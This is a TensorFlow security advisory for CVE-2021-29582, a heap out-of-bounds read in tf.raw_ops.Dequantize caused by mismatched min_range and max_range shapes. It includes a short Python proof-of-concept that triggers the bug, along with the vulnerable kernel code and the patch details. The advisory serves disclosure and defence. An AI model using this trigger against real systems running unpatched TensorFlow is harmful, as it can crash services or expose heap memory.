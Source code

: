 ## TFSA-2021-070: Heap OOB read in `tf.raw_ops.Dequantize`

### CVE Number
CVE-2021-29582

### Impact
Due to lack of validation in `tf.raw_ops.Dequantize`, an attacker can
trigger a read from outside of bounds of heap allocated data:

```python
import tensorflow as tf

input_tensor=tf.constant(
  [75, 75, 75, 75, -6, -9, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10], shape=[5, 10], dtype=tf.int32)
input_tensor=tf.cast(input_tensor, dtype=tf.quint8)
min_range = tf.constant([-10], shape=[1], dtype=tf.float32)
max_range = tf.constant([24, 758, 758, 758, 758], shape=[5], dtype=tf.float32)

tf.raw_ops.Dequantize(
  input=input_tensor, min_range=min_range, max_range=max_range, mode='SCALED',
  narrow_range=True, axis=0, dtype=tf.dtypes.float32)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/26003593aa94b1742f34dc22ce88a1e17776a67d/tensorflow/core/kernels/dequantize_op.cc#L106-L131)
accesses the `min_range` and `max_range` tensors in parallel but fails to check
that they have the same shape:

```cc
if (num_slices == 1) {
  const float min_range = input_min_tensor.flat<float>()(0);
  const float max_range = input_max_tensor.flat<float>()(0);
  DequantizeTensor(ctx, input, min_range, max_range, &float_output);
} else {
  ...
  auto min_ranges = input_min_tensor.vec<float>();
  auto max_ranges = input_max_tensor.vec<float>();
  for (int i = 0; i < num_slices; ++i) {
    DequantizeSlice(ctx->eigen_device<Device>(), ctx,
                    input_tensor.template chip<1>(i), min_ranges(i),
                    max_ranges(i), output_tensor.template chip<1>(i));
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[5899741d0421391ca878da47907b1452f06aaf1b](https://github.com/tensorflow/tensorflow/commit/5899741d0421391ca878da47907b1452f06aaf1b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
